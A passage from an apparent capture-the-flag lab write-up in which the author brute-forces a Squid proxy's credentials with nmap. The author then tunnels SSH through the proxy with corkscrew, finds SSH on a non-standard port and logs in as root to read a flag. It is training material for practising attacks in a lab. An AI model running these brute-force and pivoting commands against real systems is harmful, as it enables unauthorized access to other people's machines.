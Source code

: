 Now, using the hinted at _http-proxy-brute_ nmap script, let's brute force that proxy server.

```
root@attackdefense:~# nmap --script=http-proxy-brute -p 3128 192.38.44.3
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-07 03:07 IST

PORT     STATE SERVICE
3128/tcp open  squid-http
| http-proxy-brute: 
|   Accounts: 
|     root:hello! - Valid credentials
|_  Statistics: Performed 49698 guesses in 38 seconds, average tps: 1644.1
MAC Address: 02:42:C0:26:2C:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 39.16 seconds
```

Now, given that, I'll use _corkscrew_ to SSH to machine B via machine A. Thanks to the following example in the manpage for _corkscrew_, this is easy.

```
EXAMPLES
       The common usage of corkscrew is to put the following line in
       ~/.ssh/ssh_config:

               ProxyCommand corkscrew proxy proxyport %h %p [<path to auth_file>]
```

So, I did the following:

```
root@attackdefense:~# echo "root:hello!" > authfile
root@attackdefense:~# echo "Host *" >> /root/.ssh/ssh_config
root@attackdefense:~# echo "ProxyCommand corkscrew 192.38.44.3 3128 %h %p /root/authfile" >> /root/.ssh/ssh_config
root@attackdefense:~# ssh 192.38.44.4 -F .ssh/ssh_config        
Proxy could not open connection to 192.38.44.4:  Service Unavailable
kex_exchange_identification: Connection closed by remote host
```

Weird. I guess I should probably make sure that the port I'm trying to connect to is actually open.

```
root@attackdefense:~# nmap 192.38.44.4 -p 0-65535 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-07 03:17 IST
Nmap scan report for target-2 (192.38.44.4)
Host is up (0.000015s latency).
Not shown: 65535 closed ports
PORT     STATE SERVICE VERSION
4554/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.5 (Ubuntu Linux; protocol 2.0)
```

Okay, so they set SSH to listen on port 4554. Easy enough:

```
root@attackdefense:~# ssh 192.38.44.4 -F .ssh/ssh_config -p 4554
root@192.38.44.4's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Mon Apr  6 21:46:26 2020 from 192.38.44.3
root@victim-1:~# ls
FLAG
root@victim-1:~# cat FLAG 
1678C22AA29A611919DADE0E8B1A1527
```
